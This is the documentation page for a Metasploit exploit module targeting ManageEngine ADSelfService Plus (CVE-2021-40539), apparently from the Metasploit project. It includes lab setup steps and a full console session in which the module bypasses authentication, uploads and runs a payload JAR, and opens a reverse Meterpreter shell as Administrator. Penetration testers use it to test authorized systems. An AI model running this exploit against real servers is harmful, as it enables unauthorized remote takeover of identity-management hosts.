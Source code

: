 ## Vulnerable Application

### Setup

Follow the [Getting Started] guide. You do not need AD, and you can skip licensing.

1. Download [ManageEngine_ADSelfService_Plus_64bit.exe]
1. Run the installer
1. Start the server
1. Hax

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6113/ManageEngine_ADSelfService_Plus_64bit.exe

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI

Path traversal for auth bypass. `/./` is the default.

## Scenarios

### ADSelfService Plus 6113 on Windows Server 2016

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > options

Module options (exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8888             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /./              yes       Path traversal for auth bypass
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  [redacted]       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Dropper


msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set rhosts 172.16.57.167
rhosts => 172.16.57.167
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > run

[*] Started reverse TCP handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully bypassed REST API authentication.
[*] Uploading payload JAR: RlBtKpwLfU.jar
[+] Successfully uploaded payload JAR
[*] Executing payload JAR
[*] Sending stage (58082 bytes) to 172.16.57.167
[+] Successfully executed payload JAR
[+] Deleted RlBtKpwLfU.jar
[*] Meterpreter session 1 opened (172.16.57.1:4444 -> 172.16.57.167:64699 ) at 2021-11-24 10:41:43 -0600

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN-PRMQDT3BCJI
OS          : Windows Server 2016 10.0 (amd64)
Meterpreter : java/windows
meterpreter >
```
